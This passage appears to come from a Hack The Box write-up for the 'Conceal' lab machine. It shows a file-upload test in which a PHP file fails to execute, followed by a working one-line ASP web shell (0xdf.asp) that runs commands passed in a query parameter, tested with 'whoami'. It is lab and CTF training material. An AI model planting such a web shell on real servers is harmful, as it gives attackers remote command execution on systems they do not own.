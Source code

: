 - `http://10.10.10.116/upload/`
    
    ![Untitled](../assets/img/hackthebox/Conceal/Untitled%2016.png)
    

With this, we can see that the file teste.php was uploaded, but let's see the return.

- `http://10.10.10.116/upload/teste.php`
    
    ![Untitled](../assets/img/hackthebox/Conceal/Untitled%2017.png)
    

Apparently, the server cannot read a .php file. Let's try [ASP](http://ASP.NET) instead of PHP.

- `0xdf.asp` - Creates a cmd
    
    ```conf
    <%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
    ```
    
- `http://10.10.10.116/upload/0xdf.asp?cmd=whoami` - Now let's try to get a reverse shell
    
    ![Untitled](../assets/img/hackthebox/Conceal/Untitled%2018.png)
    